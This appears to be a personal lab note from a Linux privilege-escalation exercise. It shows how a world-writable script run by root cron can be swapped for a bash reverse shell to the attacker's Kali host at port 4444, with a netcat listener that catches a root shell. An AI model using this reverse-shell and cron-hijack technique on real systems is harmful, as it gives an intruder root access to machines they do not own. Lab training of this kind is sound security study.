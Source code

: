 # Cron jobs

1. **Cron jobs are programs or scripts which users can schedule to run at specific times or intervals.** 
2. Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at` /etc/crontab`
	- View the contents of the system-wide crontab:

			cat /etc/crontab

4. *There should be two cron jobs scheduled to run every minute.* 
	- One runs `overwrite.sh`
	- The other runs `/usr/local/bin/compress.sh`

			# /etc/crontab: system-wide crontab
			# Unlike any other crontab you don't have to run the `crontab'
			# command to install the new version when you edit this file
			# and files in /etc/cron.d. These files also have username fields,
			# that none of the other crontabs do.

			SHELL=/bin/sh
			PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

			# m h dom mon dow user  command
			17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
			25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
			47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
			52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
			#
			* * * * * root overwrite.sh
			* * * * * root /usr/local/bin/compress.sh



### overwrite.sh
1. Locate the full path of the overwrite.sh file:

		locate overwrite.sh

2. Note that the file is world-writable:

		ls -l /usr/local/bin/overwrite.sh
		
		result
		-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh

3. Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.

		#!/bin/bash
		bash -i >& /dev/tcp/10.9.247.43/4444 0>&1

4. Set up a `netcat` listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

		nc -nvlp 4444
![[1.PNG]]
[[9.cron jobs - PATH environmental variables]]